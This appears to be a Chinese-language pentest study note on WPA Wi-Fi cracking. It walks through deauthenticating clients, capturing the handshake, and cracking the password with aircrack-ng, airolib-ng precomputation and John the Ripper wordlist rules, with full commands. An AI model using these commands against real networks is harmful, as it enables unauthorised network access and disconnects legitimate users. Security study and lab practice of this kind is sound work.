

WPA Crack
===
🔙 [MENU README](../README.md)

# 原理


```
1. 攻擊者傳送deauthentication(不需要任何權限)，打掉Client，在客戶端重新連接時得到4-Handshake內的資訊
2. PTK = PMK + ANounce + SNounce + MAC1 + MAC2
   PTK = Hash(ESSID + <PSK> + 4096)
         + ANounce + SNounce + MAC1 + MAC2
3. 所有資訊都可以從4-Handshake內得到，除了PSK也就是WiFi密碼，只要嘗試用字典檔去爆到MIC = HASH(PTK)相符合
```


# Dictionary
Recon
```bash
airodump-ng wlan0mon
airodump-ng wlan0mon -c 1 --bssid $TargetAPBSSID -w wpa.cap # 持續記錄
# 找到用戶端將他deauthentication

# deauthentication
aireplay-ng -0 2 -a $TargetAPBSSID -c $ClientBSSID wlan0mon
# 可以觀察客戶端會馬上斷掉並再次連接
# airodump-ng會抓到握手包，即可停止
```
Dictionary Crack
```bash
aircrack-ng -w /usr/share/john/password.lst wpa.cap

KEY FOUND! [ 1234567890 ]
```

---

# Airolib-ng
字典破解實在耗時，這是一個提速工具(靠Rainbow Table)
原本PMK計算非常緩慢，但其實給定網路名稱跟密碼後PMK是不變的
Airolib-ng透過預先計算組合(獲得PMK)，來加速破解
```bash
# 創建一個txt寫入想要破解的ESSID
echo KALI_Wireless_JLY > essid.txt

# 將txt導入數據庫
airolib-ng essid_db --import essid essid.txt
airolib-ng essid_db --stats

# 導入密碼表
airolib-ng essid_db --import passwd /usr/share/john/password.lst
airolib-ng essid_db --stats

# 先計算PMK以節省破解時間
airolib-ng essid_db --batch

# Crack
airolib-ng -r essid_db wpa.cap
```

---

# John the Ripper
創建Custom Dictionary
```bash
sudo vim /etc/john/john.conf


Try the second half of split passwords
-s **
-s-c x** M l Q
===> $[0-9]$[0-9]$[0-9]$[0-9] ===> 自動補齊


john --wordlist=PasswordDictionary.txt --rules -stdout 
```
attack
```bash
airodump-ng wlan0mon -c 1 --bssid $TargetAPBSSID -w wpa.cap # 持續記錄
# deauthentication客戶連接兩次
aireplay-ng -0 2 -a $TargetAPBSSID -c $ClientBSSID wlan0mon
```
crack dynamic by john
```bash
john --wordlist=PasswordDictionary.txt --rules -stdout | aircrack-ng -e $TargetAP_SSID -w - wpa.cap

# KEY FOUND! [........]
```